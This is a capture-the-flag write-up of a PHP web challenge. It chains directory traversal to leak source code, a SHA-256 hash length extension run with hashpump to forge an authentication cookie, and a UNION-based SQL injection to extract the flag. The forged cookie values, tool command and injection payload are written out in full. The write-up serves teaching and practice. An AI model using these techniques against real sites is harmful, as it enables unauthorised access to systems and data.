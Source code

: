 ## Step 1 - Directory Traversal

This is what the site looks like:

![Home Page](http://i.imgur.com/sZVdEiP.png)

The admin page doesn't have a login option, it just says "Sorry, not authorized."

![Admin page](http://i.imgur.com/UDhGLnJ.png)

Visiting other pages on the site exposes a directory traversal vulnerability.

![Traversal Vuln](http://i.imgur.com/R9jiqHe.png)

Substituting *index* for *admin.php* exposes the full admin.php source code.

![admin.php traversed](http://i.imgur.com/ERvPwIY.png)

The unrendered source looks like this:

	<?php
		require_once("secrets.php");
		$auth = false;
		if (isset($_COOKIE["auth"])) {
			$auth = unserialize($_COOKIE["auth"]);
			$hsh = $_COOKIE["hsh"];
			if ($hsh !== hash("sha256", $SECRET . strrev($_COOKIE["auth"]))) {
				$auth = false;
			}
		}
    	else {
			$auth = false;
			$s = serialize($auth);
			setcookie("auth", $s);
			setcookie("hsh", hash("sha256", $SECRET . strrev($s)));
		}
		if ($auth) {
			if (isset($_GET['query'])) {
        		$link = mysql_connect('localhost', $SQL_USER, $SQL_PASSWORD) or die('Could not connect: ' . mysql_error());
        		mysql_select_db($SQL_DATABASE) or die('Could not select database');
        		$qstr = mysql_real_escape_string($_GET['query']);
        		$query = "SELECT amount FROM plaidcoin_wallets WHERE id=$qstr";
        		$result = mysql_query($query) or die('Query failed: ' . mysql_error());
        		$line = mysql_fetch_array($result, MYSQL_ASSOC);
        		foreach ($line as $col_value) {
          			echo "Wallet " . $_GET['query'] . " contains " . $col_value . " coins.";
        		}
			} else {
         		echo "<html><head><title>MtPOX Admin Page</title></head>			<body>Welcome to the admin panel!<br /><br /><form name='input' action='admin.php' method='get'>Wallet ID: <input type='text' name='query'><input type='submit' value='Submit Query'></form></body></html>";
			}
    	}
    	else echo "Sorry, not authorized.";
	?>

Taking a closer look at the source code confirms some previous suspicions and reveals the mechanism behind authentication.

The page set two cookies. The first is *auth*. *auth* is a URL encoded serialized PHP boolean `b:0;`. Setting *auth* to `b:1;` does nothing. (in fact it just gets reset)

**auth:** `b%3A0%3B`

*hsh* is a sha-256 hash that makes it impossible to forge *auth*. This cookie is hashed with `$SECRET`. a php variable that has to live in `secrets.php`

**hsh:** `ef16c2bffbcf0b7567217f292f9c2a9a50885e01e002fa34db34c0bb916ed5c3`


![forbidden sauce](http://i.imgur.com/wmLNBDA.png)

Unfortunately, the source code of *secrets.php* isn't visible. The source of index.php reveals that The Plague had actually taken *some* precautionary measures to keep his secrets hidden. 

	if (strstr($_GET['page'], "secrets")) { echo "ERROR!\n"; }

Time to get creative.

## Step 2 - Hash Length Extension

There are several factors that have come into play here that make HLE possible.

1. SHA-256 is vulnerable to hash length extension attacks.

2. PHP unserialization will accept a valid input and ignore any data after the `;`. This means the *auth* cookie will always work as long as it starts with `b:0;` or `b:1;`.

3. The string at the end of the hashed text is reversed. This means any backwards data added to *hsh* will be at the beginning of the *auth* cookie.

4. The length of the key is known, or enough time is available to bruteforce it. (A little recon on the *about* page reveals the length to be 8)

Recommended reading:

* https://blog.skullsecurity.org/2012/everything-you-need-to-know-about-hash-length-extension-attacks 
* http://en.wikipedia.org/wiki/Length\_extension\_attack

[hashpump](https://github.com/bwall/HashPump) can do the heavy lifting for us. 

	$ ./hashpump -s "ef16c2bffbcf0b7567217f292f9c2a9a50885e01e002fa34db34c0bb916ed5c3" -d ";0:b" -a ";1:b" -k 8
    
    967ca6fa9eacfe716cd74db1b1db85800e451ca85d29bd27782832b9faa16ae1

	;0:b\x80\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00`;1:b

The hash that hashpump outputs is the new *hsh*, and the second string is the new, reversed, hex-encoded *auth* string, which needs to be turned the right way around and URL-encoded.

This is what the *auth* cookie looks like the right way around, and properly encoded.

<pre>	b%3A1%3B`%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%80b%3A0%3B
</pre>
    
Plug these in for the cookie values and suddenly *admin.php* looks like this:

![Admin Panel](http://i.imgur.com/DZhJJmz.png)

The only working ID is 0. All others return a blank page.

![1333337 coins](http://i.imgur.com/2QJzuD0.png)

## Step 3 - SQL Injection

At this point it makes sense to go back and look at *admin.php* some more. mysql_real_escape_strings() won't help you here, Mr. The Plague. In fact, just submitting the form without putting anything in the text box returns a SQL error.

	Query failed: You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '' at line 1
    
The input box expects a numerical ID, but what goes after the ID is up to the creative problem solver.

From this point on, finding the key just takes some probing. The final query is quite simple:

	1 UNION SELECT id FROM plaidcoin_wallets
    
![Win.](http://i.imgur.com/Im7rPxl.png)
